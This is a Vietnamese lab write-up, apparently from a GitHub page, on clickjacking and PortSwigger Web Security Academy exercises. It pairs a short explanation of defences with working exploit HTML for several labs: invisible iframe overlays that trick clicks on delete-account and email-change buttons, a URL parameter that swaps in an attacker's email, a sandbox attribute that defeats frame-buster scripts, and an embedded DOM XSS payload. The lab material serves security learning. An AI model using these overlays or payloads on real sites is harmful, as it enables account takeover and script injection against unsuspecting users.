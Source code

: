 # Clickjacking

Nhân dịp trên mạng đang nổi trội những người thân bạn bè pay acc fb ngay trong 1 đêm thì mình có cảm hứng để làm về lổ hỗng [Clickjacking](https://portswigger.net/web-security/clickjacking)

## Clickjacking là gì ?
Nói ngắn gọn dễ hiểu nhất là một hình thức tấn công đánh lừa người dùng nhấp chuột vô ý vào một đối tượng trên website(ví dụ cụ thể ở đây là fb). Khi nhấp chuột vào một đối tượng trên màn hình, người dùng nghĩ là mình đang click vào đối tượng đó nhưng thực chất họ đang bị lừa click vào một đối tượng khác > đã bị làm mờ hay ẩn đi. Kẻ tấn công có thể sử dụng kỹ thuật tấn công này cho nhiều mục đích. Đánh cắp tài khoản người dùng, lừa click vào quảng cáo để kiếm tiền, lừa like page hoặc nguy hiểm hơn là cài một webshell lên máy chủ web.
## Có thể khai thác lỗ hổng này như thế nào ??
```
  + Hacker có thể lấy cắp thông tin đăng nhập của bạn thông qua 1 cái form fake trông có vẻ giống giống trang thật.
  + Lừa người dùng mở web-cam hoặc microphone bằng cách hiển thị các yếu tố vô hình trên trang cài đặt Adobe Flash.
  + Phát tán worms trên các trang mạng xã hội.
  + Phát tán malware bằng cách chuyển hướng người dùng tới link download chương trình độc hại.
  + Quảng cáo lừa đảo.
```
## Cách ngăn chặn Clickjacking

Clickjacking tấn công bằng cách bao bọc trang web mà người dùng tin tưởng bởi *iframe* sau đó render ẩn phần tử này lên trên cùng. Để ngăn chặn lỗ hổng này các bạn có thể sử dụng các cách sau :
```
  + X-Frame-Options
  + Content Security Policy
  + Frame-Killing

``` 
## Clickjacking Lab
  
### Lab: Basic clickjacking with CSRF token protection
Bài lab đã mô tả rõ ràng cho chúng ta cách thức để exploit lỗ hổng này chính là khai thác nút Delete Account bằng cách tạo ra 1 nút ảo đè lên và đánh lừa người dùng. 
Account : wiener:peter

Có 1 vài chỉ dẫn về struct của html mà chúng ta sẽ exploit như sau : 
```
<head>
  <style>
    #target_website {
      position:relative;
      width:128px;
      height:128px;
      opacity:0.00001;
      z-index:2;
      }
    #decoy_website {
      position:absolute;
      width:300px;
      height:400px;
      z-index:1;
      }
  </style>
</head>
...
<body>
  <div id="decoy_website">
  ...decoy web content here...
  </div>
  <iframe id="target_website" src="https://vulnerable-website.com">
  </iframe>
</body>
```
Tuy nhiên để phù hợp với HTML của trang web mà chúng ta đã đăng nhập vào và tương ứng với nút DeleteAccount thì chúng ta sẽ thay đổi như sau :
```
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:520px;
       left:50px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://acd31f081eacf731806c6b3f00a900a1.web-security-academy.net/my-account"></iframe>

```




### Lab: Clickjacking with form input data prefilled from a URL parameter
Như mô tả thì đây là bài mở rộng của lab trên nên về cơ bản các bước chúng ta cũng làm tương tự như trên.

Tuy nhiên vì đây là chức năng update email. chúng ta có thể dùng nó để update email của chúng ta và leak thông tin.
Dùng burpSuite để bắt lại request khi update email.



Điều đó làm thay đổi cấu trúc của link mà chúng ta chèn vào trong khung HTML được dựng: 
```
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:440px;
       left:50px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://acfc1f101e46e458806d5c3d00b0004c.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

Phần *email=hacker@attacker-website.com* chính là phần chúng ta thêm email của hacker để leak thông tin.



### Lab: Clickjacking with a frame buster script
Bài lab này đã cho chúng ta biết dùng lại kỹ thuật của 2 bài lab trên là vô dụng, và đưa ra 1 hướng mới cho chúng ta khai thác.
```
Frame busting techniques are often browser and platform specific and because of the flexibility of HTML they can usually be circumvented by attackers. As frame busters are JavaScript then the browser's security settings may prevent their operation or indeed the browser might not even support JavaScript. An effective attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. When this is set with the allow-forms or allow-scripts values and the allow-top-navigation value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:

<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```
Như vậy là chúng ta đã có hướng giải quyết cho vấn đề, chúng ta dùng sandbox = allow-forms để vô hiệu hóa.
```
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:440px;
       left:50px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://ac6f1fa31ecac23380c4079b000d00fe.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

Để có được payload như trên phải căn chỉnh nhiều lần để rút ra được những thông số như thế.


### Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS

```
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:635px;
       left:60px;
       z-index: 1;
   }
</style>
<div>click me</div>
<iframe
src="https://acb41f951f633851803d2471000c00bf.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```



### Lab: Multistep clickjacking

```
<style>
   iframe {
       position:relative;
       width:$width_value;
       height: $height_value;
       opacity: $opacity;
       z-index: 2;
   }
   .firstClick, .secondClick {
       position:absolute;
       top:$top_value1;
       left:$side_value1;
       z-index: 1;
   }
   .secondClick {
       top:$top_value2;
       left:$side_value2;
   }
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="$url"></iframe>
```
